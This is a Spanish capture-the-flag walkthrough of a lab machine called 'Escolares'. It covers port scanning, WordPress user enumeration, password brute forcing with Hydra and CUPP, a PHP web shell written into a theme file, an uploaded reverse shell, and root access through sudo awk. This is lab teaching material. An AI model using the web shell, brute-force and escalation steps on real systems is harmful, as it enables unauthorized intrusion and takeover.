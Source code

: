 ```yaml
---
description: '✍️ Autor: Luisillo_o🔍 Dificultad: Fácil  📅 Fecha de creación: 09/06/2024'
---
```


# Escolares

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo, el puerto **22** perteneciente al servicio **SSH** y el puerto **80** perteneciente al servicio **HTTP** están abiertos, por lo que se procederá a indagar más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Se ingresó la dirección IP en el navegador, lo que llevó a que la página web sobre una universidad de ciberseguridad.

<figure><img src="../../.gitbook/assets/image (148).png" alt=""><figcaption></figcaption></figure>

De primeras, no se nos muestra nada, por lo que revisamos el código fuente por si hay alguna información oculta relevante.

<figure><img src="../../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

Se nos muestra un comentario que parece ser relevante ya que la información del personal académico está en el directorio `/profesores.html` por lo que accedemos a él.

<figure><img src="../../.gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención de **Luis** ya que pone que es el **admin** de Wordpress.

Ahora, buscamos directorios con la herramienta **Gobuster** a través del comando:

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,htm,php,txt,xml -u http://172.17.0.2
```

<figure><img src="../../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>

Hemos localizado la ruta que necesitábamos, ahora utilizaremos **WPscan** para identificar la versión específica de WordPress y enumerar los usuarios, con el fin de confirmar los hallazgos anteriores.

```bash
wpscan --url http://172.17.0.2/wordpress/ -e u
```

<figure><img src="../../.gitbook/assets/image (153).png" alt=""><figcaption></figcaption></figure>

Hemos confirmado la existencia del usuario **luisillo** en el WordPress. Ahora, procederemos a utilizar Hydra para realizar un ataque de fuerza bruta contra este usuario

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l luisillo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **172.17.0.2**. No tenemos suerte por lo que probaremos otra cosa.

Para obtener la contraseña del usuario, utilizaremos la herramienta **CUPP** (Common User Passwords Profiler), que no viene preinstalada en Kali Linux. CUPP está diseñada para generar listas de contraseñas personalizadas basadas en la información específica del usuario objetivo. Esto es útil porque muchos usuarios suelen crear contraseñas utilizando datos personales, como su nombre, fecha de nacimiento o el nombre de su mascota, en lugar de contraseñas genéricas.

Una vez que hemos instalado CUPP, ejecutamos el siguiente comando en la terminal para iniciarlo en modo interactivo:

```bash
cupp -i
```

<figure><img src="../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

Con la lista de contraseñas generada, estamos preparados para llevar a cabo el ataque de fuerza bruta y tratar de obtener credenciales válidas.

<figure><img src="../../.gitbook/assets/image (155).png" alt=""><figcaption></figcaption></figure>

La contraseña del usuario **luisillo** es **Luis1981**. Probamos las credenciales en el formulario del Wordpress.

> Nota: si nos da error [http://172.17.0.2/wordpress/wp-login.php](http://172.17.0.2/wordpress/wp-login.php) se debe añadir el dominio a /etc/hosts es decir, añadir 172.17.0.2 escolares.dl y reiniciar la página.

<figure><img src="../../.gitbook/assets/image (137).png" alt=""><figcaption></figcaption></figure>

Nos deja entrar cuando quitamos el bloqueo de las cookies.

<figure><img src="../../.gitbook/assets/image (138).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (139).png" alt=""><figcaption></figcaption></figure>

Accede al archivo `index.php` en la ruta `wp-content/themes/twentytwentytwo/` de tu instalación de WordPress y modifica el archivo con el siguiente código PHP:

```markdown
<?php echo "<pre>". shell_exec($_REQUEST['cmd']). "</pre>" ?>
```

Luego, abre tu navegador y accede a la siguiente URL para ejecutar comandos:

```ruby
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php?cmd=whoami
```

Al ejecutar el comando `whoami`, deberías ver el resultado en la página, que indicará el usuario bajo el cual se está ejecutando el servidor web que es `www-data`. Sabiendo que podemos ejecutar cualquier comando, vamos a realizar una reverse **shell** utilizando la página web por lo que subimos este archivo PHP [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

<figure><img src="../../.gitbook/assets/image (140).png" alt=""><figcaption></figcaption></figure>

```
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/reverse.php
```

Después de ejecutar el comando codificado en la URL, la página puede quedarse cargando indefinidamente. Esto indica que la solicitud está en proceso, pero no necesariamente significa que ha fallado.

Nos ponemos en escucha por el puerto 443:

<figure><img src="../../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root** ya que somos www-data como se mostraba anteriormente.

Para facilitar la interacción con la **shell**, migraremos a una sesión de **bash** más funcional. Esto es necesario porque en la **shell** actual no podemos utilizar las teclas de flecha ni acceder al historial de comandos. Ejecutando el siguiente comando, iniciamos una nueva sesión de bash sin registrar la actividad en ningún archivo:

```bash
script /dev/null -c bash
```

Estamos ejecutando comandos como el usuario `www-data`, lo que significa que nuestros permisos son limitados. Sin embargo, podemos intentar explorar el directorio `/home` para ver si encontramos algo interesante. Al revisar el contenido de `/home`, además de los directorios de usuarios, encontramos un archivo llamado `secret.txt`. Este archivo contiene la contraseña de un usuario llamado **Luisillo**, lo que podría ser útil para obtener acceso adicional.&#x20;

<figure><img src="../../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>

Nos conectamos al sistema como el usuario **Luisillo**. Ahora que tenemos acceso como un usuario normal, navegamos a su carpeta personal y listamos el contenido, pero no encontramos nada relevante. Sin embargo, al ejecutar `sudo -l`, descubrimos que podemos elevar privilegios utilizando el binario `awk`.

<figure><img src="../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

Visitamos la página de **GFTOBins** para buscar una forma de escalar privilegios usando el binario `awk`. En la sección correspondiente a `awk` bajo el contexto de `sudo`, encontramos el comando que nos permitirá abusar de este binario para obtener privilegios de **root**. Puedes revisar los detalles en el siguiente enlace:

[GFTOBins - awk (sudo)](https://gtfobins.github.io/gtfobins/awk/#sudo)

Tras eso, ponemos:

```bash
whoami
```

y ya somos **root**.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
